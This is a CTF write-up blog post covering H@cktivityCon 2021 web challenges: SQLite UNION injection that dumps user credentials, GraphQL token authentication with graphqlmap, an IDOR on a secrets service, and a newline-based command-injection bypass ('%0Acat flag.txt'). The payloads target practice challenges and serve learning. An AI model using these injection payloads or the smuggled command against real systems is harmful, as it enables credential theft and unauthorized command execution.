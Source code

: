 ```yaml
---
layout: post
title:  H@cktivityCon CTF 2021  Web Challenges Writeup                               # Title of the page
hide_title: false                                  # Hide the title when displaying the post, but shown in lists of posts
feature-img: "assets/img/writeups/Hackcon/abu_index.png"              # Add a feature-image to the post
thumbnail: "assets/img/writeups/Hackcon/abu_index.png"  # Add a thumbnail image on blog view
color: dufault                            # Add the specified color as feature image, and change link colors in post
bootstrap: true                                   # Add bootstrap to the page
author: abdoghazy
excerpt_separator: <!--more-->
tags: [ctf, writeup, Web]
---
```

<h1>H@cktivityCon CTF 2021  Web Challenges Writeup </h1>  
 <!--more-->

Hello All iam abdelhameed ghazy and this is my writeup for some web challenges in H@cktivityCon CTF 2021 

First challenge : All Backed Up    Level: Medium      sqlite_injection and graphql 
Desc : Grandma always knew how to make tried-and-true baked goods, and these recipes prove it!


<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_index.png" /> 

as we see there is four blogs about cakes so let's see any one of them
http://challenge.ctf.games:31353/post/Blackberry-Orange Cake

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_somecake.png" /> 


as we see there is a endpoint called post and then there is another endpoint had the name of cake so let's try sqli 
http://challenge.ctf.games:31353/post/Blackberry-Orange Cake' or 1=1--
after i tried this it gives the first cake : 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli1.png" /> 

so let's know the numbers of columns by ' order by 1 --
after incresing the number we got that we had  6 columns so let's use union to dump data 
http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,2,3,4,5,6 --

the column 2,4,6  are reflected into the page so we will dump using them 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_column.png" /> 


first i used http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sqlite_version(),3,4,5,6 --

to make sure that's a sqlite so i tried to dump the columns from database by this 

http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sql,3,4,5,6 from sqlite_master limit 1,1 --
i found a table called posts so i ignored it and then i used this 
http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sql,3,4,5,6 from sqlite_master limit 2,1--
to get the second table (users)

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_users.png" /> 
as you see there is a table called users had username,password  so let's dump the creds 

http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,username,3,password,5,6 from users--

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_creds.png" /> 
as you see we got the creds 

username :congon4tor   password : n8bboB!3%vDwiASVgKhv

and there isn't  user else 

so i stuck here but after review requests i found a request sent to graphql and i didn't like it :( 

so i used graphql map : (it's  not a scanner i just use it to help me write my quiers eaisly)

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphqlmap.png" /> 

python3 graphqlmap.py -u http://challenge.ctf.games:31353/graphql --method POST --json

and then i used dump_new command to view graphql contents 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphql_dump.png" /> 

as we see we had intersting stuff here 

Mutation called  (authenticateUser) took two parameters username and password both of them is string
Query called flag
token used in auth 

at first i tried to call flag qurey by this : {flag}
but it returned  :(error authenticating user: invalid token)

so by logic we need to use authenticateUser mutation to get token then used it to auth then call the flag query 

but for sorry i didn't know how to use it :( 
so i started searching how to use mutation and queries and Alhamdullah I got it 

first we will get the token by this command : mutation{authenticateUser(username:"congon4tor" password:"n8bboB!3%vDwiASVgKhv"){token}}

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphql_token.png" /> 

nice !!! Now We got the token but didn't know how to use it to call the flag maybe it's a authorization header or we will send it in graphql parameter but after i switch on my browser tabs i found the github repo for graphqlmap it provide us to sent custom headers 
by this option : --headers

so, i exit graphql map and use this new command : 
python3 graphqlmap.py -u http://challenge.ctf.games:31353/graphql --method POST --json  --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNvbmdvbjR0b3IiLCJleHAiOjE2MzIyMzI1NjEsImlhdCI6MTYzMjA1OTc2MSwiaXNzIjoiQ29uZ29uNHRvciJ9.WhAB-0xq54d4w4WT0cW2Ev8iozY-ASk0pQi2WGHDv-8"}'

and then called flag query {flag}

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_flag.png" /> 


Second  challenge : OPA Secrets    Level: Hard      Flask Code Review , Idor  
Desc : OPA! Check out our new secret management service

After you read : i see it's a not hard challenge but any way let's see 

after signup & login we found that it takes secret 

<img src="http://github.com/0xL4ugh/0xL4ugh.github.io/raw/main/assets/img/writeups/Hackcon/opa_index" /> 

while browsing i found the github repo that had the source code ;) 

so as always i see the changes in the files and no thing intersted either admin password and it's not working also xD 
but i found secret from admin called Flag and it's id 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/opa_flagid.png" /> 

so let's see app.py  , as we see there is a endpoint called getValue that calls function called get_secret() 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/opa_apppy.png" /> 

it sends post request to a locally host and get the secret so i tried secret id that we got and i got the flag xD

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/opa_flag.png" /> 


also we had an medium command injection  challenge that use sha256 command but  filters all special chars  (;&|) so i bypassed it by  : /n so my payload was 
flag.txt%0Acat flag.txt

